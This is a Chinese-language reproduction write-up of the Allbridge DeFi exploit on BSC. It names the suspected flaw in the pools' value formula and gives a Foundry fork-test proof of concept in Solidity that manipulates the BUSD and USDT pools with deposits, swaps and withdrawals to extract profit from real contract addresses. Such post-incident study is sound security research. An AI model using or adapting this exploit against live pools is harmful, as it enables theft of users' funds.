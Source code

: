 # Allbridge攻击复现

## 1.参考资料：

交易详情

https://phalcon.xyz/tx/bsc/0x7ff1364c3b3b296b411965339ed956da5d17058f3164425ce800d64f1aef8210

## 2.漏洞成因

尚不清楚是因为项目方本身的代币价值计算公式有问题，还是价格获取方式有问题，根据调整BUSD和USDT池子大小，通过反复测试之后，应该是项目方本身的计算公式有问题，获利不会因为两个池子价差越大而越多，到后边变动越来越小。

计算公式：

![image-20230409205351454](allbridge攻击复现.assets/image-20230409205351454.png)

## 3.漏洞POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url <your own RPC> --fork-block-number 26982057

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Pool{
    function deposit(uint256 amount) external;
    function withdraw(uint256 amountLp) external;
}

interface Bridge {
    function swap(uint256 amount, bytes32 token, bytes32 receiveToken, address recipient) external;
}

interface BUSD{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}
interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    
    function testattack() public returns(uint256 test){

        BUSD busd = BUSD(address(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56));
        USDT usdt = USDT(address(0x55d398326f99059fF775485246999027B3197955));
        Bridge bridge = Bridge(address(0x7E6c2522fEE4E74A0182B9C6159048361BC3260A));

        busd.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        usdt.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        usdt.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        busd.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        // ba2 = busd.balanceOf(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));

        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        busd.transfer(address(this), 9000000000000000000000000);
        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        usdt.transfer(address(this), 9000000000000000000000000);

        bytes32 addrBytes1 = bytes32(0x00000000000000000000000055d398326f99059fF775485246999027B3197955);
        bytes32 addrBytes2 = bytes32(0x000000000000000000000000e9e7CEA3DedcA5984780Bafc599bD69ADd087D56);


        Pool busd_pool = Pool(address(0x179aaD597399B9ae078acFE2B746C09117799ca0));
        Pool usdt_pool = Pool(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554));
        busd_pool.deposit(5000000000000000000000000);
        usdt_pool.deposit(2000000000000000000000000);

        //2.swap

        bridge.swap(490784250421615988577113,addrBytes1,addrBytes2,address(this));
        busd_pool.withdraw(4830262616);
        uint256 bnum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        uint256 anum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));

        test = (anum - bnum) / 1 ether - 40000;
    }
}
```

## 4.复现结果

POC仅供漏洞验证，并未跟攻击者获利完全一致

![image-20230409205632135](allbridge攻击复现.assets/image-20230409205632135.png)

